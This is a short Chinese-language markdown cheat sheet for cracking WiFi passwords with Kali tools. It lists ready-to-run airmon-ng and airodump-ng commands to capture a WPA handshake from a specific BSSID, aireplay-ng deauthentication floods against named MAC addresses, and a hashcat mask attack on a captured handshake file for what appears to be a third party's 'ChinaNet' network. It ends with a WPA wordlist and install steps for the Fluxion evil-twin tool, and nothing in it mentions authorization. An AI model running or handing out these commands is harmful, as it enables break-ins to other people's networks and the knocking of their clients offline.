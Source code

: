 # Kali WIFI 破解

## 1.监听

```
airmon-ng start wlan0
```

## 2.搜索网络

```
airodump-ng wlan0mon
```

## 3.监听 Wi-Fi 抓包

> -w handshark
>
> 抓包放在 handshark
>
> -c 信道
>
> --bssid 网络 MAC 地址
>
> wlan0mon 监听网络

```
airodump-ng -w handshark -c 4 --bssid 04:20:84:0D:18:29 wlan0mon
```

## 4.ACK 攻击

```
# 攻击客户机
aireplay-ng --deauth 10 -a 74:05:A5:8F:04:B7 -c 74:05:A5:8F:04:B7 wlan0mon --ignore-negative-one

# 攻击网络
aireplay-ng --deauth 0 -a 18:F2:2C:26:30:70 --ignore-negative-one wlan0mon
```

## Hashcat

```
-a  指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
-m  指定要破解的hash类型，如果不指定类型，则默认是MD5
-o  指定破解成功后的hash及所对应的明文密码的存放位置,可以用它把破解成功的hash写到指定的文件中
--force 忽略破解过程中的警告信息,跑单条hash可能需要加上此选项
--show  显示已经破解的hash及该hash所对应的明文
--increment  启用增量破解模式,你可以利用此模式让hashcat在指定的密码长度范围内执行破解过程
--increment-min  密码最小长度,后面直接等于一个整数即可,配置increment模式一起使用
--increment-max  密码最大长度,同上
--outfile-format 指定破解结果的输出格式id,默认是3
--username   忽略hash文件中的指定的用户名,在破解linux系统用户密码hash可能会用到
--remove     删除已被破解成功的hash
-r       使用自定义破解规则
--session 保存进度
--session <session> --restore 恢复进度
```

- 破解 8-11 位数字+小写

```
.\hashcat.exe -a 3 -m 22000 "C:\Users\Goojoe\Desktop\wifi-path\ChinaNet-6uG9Cu.hc22000" -o "C:\Users\Goojoe\Desktop\wifi-path\passwd.txt" --increment --increment-min 8 --increment-max 11 --custom-charset1 ?l?d ?1?1?1?1?1?1?1?1?1?1?1

.\hashcat.exe -a 3 -m 22000 "C:\Users\Goojoe\Desktop\wifi-path\ChinaNet-6uG9Cu.hc22000" -o "C:\Users\Goojoe\Desktop\wifi-path\passwd.txt" --increment --increment-min 8 --increment-max 11 --custom-charset1 ?l?d ?1?1?1?1?1?1?1?1?1?1?1 --session 6uG9Cu
```

## 字典

- [Github](https://github.com/conwnet/wpa-dictionary)

```
git clone https://gitclone.com/github.com/conwnet/wpa-dictionary.git
```


## Fluixon

apt install git

### 1.安装
```
# 国内
git clone https://gitclone.com/github.com/FluxionNetwork/fluxion.git

# 国外
git clone https://www.github.com/FluxionNetwork/fluxion.git

# 进入fluxion目录
cd fluxion

# 安装
sudo chmod +x ./fluxion.sh && ./fluxion.sh -i
```
